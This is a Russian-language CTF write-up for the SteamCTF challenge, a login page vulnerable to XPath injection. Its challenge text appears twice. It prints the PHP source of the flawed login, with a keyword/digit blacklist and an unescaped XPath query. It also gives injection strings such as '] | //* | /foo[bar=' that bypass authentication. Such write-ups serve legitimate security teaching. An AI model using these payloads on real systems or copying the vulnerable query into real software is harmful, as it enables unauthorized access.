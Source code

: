# SteamCTF

## Условие

> **Записки охранника Игоря:** _день первый_
>
> Во всей моей профессиональной практике я не находил более ответственного, ленивого,но прилежного сисадмина, чем этот новичок. Он мне сразу не понравился. Ну даже мне понятно, что от рута в консоли не надо работать!! Я вот сижу под своим **Игорь** и всем доволен! Вообще в нашем банке есть особенная система, специально, чтобы не вести таблицу доходов/расходов, но попробуй объясни это новичку...
> В этой системе обращение к элементам **документа**, имеющего древовидную структуру, напоминает взаимодействие с файловой системой **(/)**.
> Всем удобно, никто не жалуется.
> Эту [систему](http://ваш_сайт:1001) создал старый сисадмин Павлик, но его выгнали, из-за этого он ушёл и даже не сказал пароль!!!
> Знаю только, что он фанат Warface. Ээх..поиграть бы..
> Но для начала надо найти пароль, вдруг он его куда-нибудь записал...> **Записки охранника Игоря:** _день первый_
>
> Во всей моей профессиональной практике я не находил более ответственного, ленивого,но прилежного сисадмина, чем этот новичок. Он мне сразу не понравился. Ну даже мне понятно, что от рута в консоли не надо работать!! Я вот сижу под своим **Игорь** и всем доволен! Вообще в нашем банке есть особенная система, специально, чтобы не вести таблицу доходов/расходов, но попробуй объясни это новичку...
> В этой системе обращение к элементам **документа**, имеющего древовидную структуру, напоминает взаимодействие с файловой системой **(/)**.
> Всем удобно, никто не жалуется.
> Эту [систему](http://ваш_сайт:1001) создал старый сисадмин Павлик, но его выгнали, из-за этого он ушёл и даже не сказал пароль!!!
> Знаю только, что он фанат Warface. Ээх..поиграть бы..
> Но для начала надо найти пароль, вдруг он его куда-нибудь записал...

## Решение

> Самое сложное и важное -- прочитать условие.
> Понимаем, что повествование переключилось, теперь идет не от лица горе-сисадмина, а от лица охранника Игоря. Выделено имя -- на
> заметку, скорее всего надо будет ломать именно его.
> Система, похожая чем-то на БД из прошлых соревнований первого дня.
> Ладно, переходим на сайт, пробуем авторизоваться как `admin`:`admin`, на что сайт выкидывает: `Ваш флаг STEAMCTF: flag{4dm1N_is_4n_Inv4LiD_usEr}`.
> Можно подумать, что все, вот он флаг, только он почему-то не сдается в чекер, а если присмотреться, можно прочитать `admin is an invalid user`.
> Понятно. Швыряем ботинок в сторону автора таска, надо попробовать что-нибудь другое.
> Спойлер! Так же все нижеперечисленные фейкофлаги неверные! Это на случай любителей сканеров `=)`
>
> ```
> user:user
> lol_try_harder!!!
>
> test:test
> flag{t3st_is_4n_Inv4LiD_usEr}
>
> admin:admin
> flag{4dm1N_is_4n_Inv4LiD_usEr}
>
> root:root
> flag{r007_is_4n_Inv4LiD_usEr}
>
> ubuntu:ubuntu
> flag{uBUN7u_is_4n_Inv4LiD_usEr}
>
> kali:kali
> flag{k4L1_is_4n_Inv4LiD_usEr}
>
> lol:lol
> flag{l0l_is_4n_Inv4LiD_usEr}
>
> secret:secret
> flag{my_53CR37_U53R_is_4n_Inv4LiD_usEr}
>
> server:server
> flag{th15_15_NOT_4_U53R}
>
> flag:flag
> flag{th15_15_NOT_4_U53R}
> ```
>
> Возвращаемся к описанию.
> Документ,имеющий древовидную структуру намекает на **XML документ** и **XPath (XML Path Language)**.
>
> По аналогии с первым вебом на прошлых соревнованиях можно предположить, что тут тоже инъекция, тем более такая есть, а автор
> намекает на это.
>
> Гуглим [туц](https://raz0r.name/articles/vvedenie-v-xpath-inekcii/) и [туц](https://xakep.ru/2008/06/24/44160/)
> Можно сразу было попробовать вставить кавычку и понять, что это была `xpath inj`:
>
> ```
>
> Warning: SimpleXMLElement::xpath(): Invalid predicate in /var/www/html/index.php on line 561
>
>
> Warning: SimpleXMLElement::xpath(): xmlXPathEval: evaluation failed in /var/www/html/index.php on line 561
>
> ```
>
> `'1'='1` и аналогичные кавычки не работают, также блочатся `or` и цифры.
>
> Зайдя в исходный код страницы, ищем комментарии по `<!-`, находим ссылку
> `<!-- <a href="/index.php/src/">Look_here</a> -->` на исходный код.
>
> Видим, что пользовательский ввод через поля **login** и **password** фильтруется:
>
> ```php
>
> $blacklist = Array('or','0', '1', '2', '3', '4', '5', '6', '7', '8', '9');
>
> ```
>
> Также, наюблюдаем очень странную проверку верности введённых пользователем данных:
>
> ```
>         if ($_SERVER['REQUEST_METHOD'] === 'POST'){
>
>           $login = $_POST['login'];
>
>           $pass = $_POST['pass'];
>
>           if(contains($pass, $blacklist) or contains($login, $blacklist)){
>
>               die("Простите, тут запрещено хекать!!");
>
>           }
>
>           else{
>
>             $xml = simplexml_load_file('/users.xml');
>
>
>
>             $query = "//users/user[login/text()='$login' and password/text()='$pass']";
>
>
>
>             $result = $xml->xpath($query);
>
>             if(!$result){
>
>                 echo "Попробуй еще раз! Я верю в тебя!";
>
>             }
>
>             else{
>
>                 $user_data = $xml->xpath("//users/user[login/text()='$login']")[0];
>
>                 $flag = $user_data->flag;
>
>                 echo "Ваш флаг STEAMCTF: ".$flag;
>
>             }
>
>           }
>
>         }
>
> ```
>
> Видим, что нам нужно провести инъекцию в поле **password** так, чтобы запрос был верным и выдал хотя бы один результат, а в поле
> **login** ввести необходимого нам пользователя (из описания задания можно понять, что нам необходим **Игорь**).
>
> Учитывая фильтры, простейшие инъекции:
>
> ```
>
> '] | //* | /foo[bar='
>
> '] | /* | /foo[bar='
>
> '] | /users/user | /foo[bar='
>
> ```
>
> При этом последний вариант можно вставить только в логин.
>
> **Флаг:**
> flag{xp4tH_I5_jU5T_4_w4rM_uP}
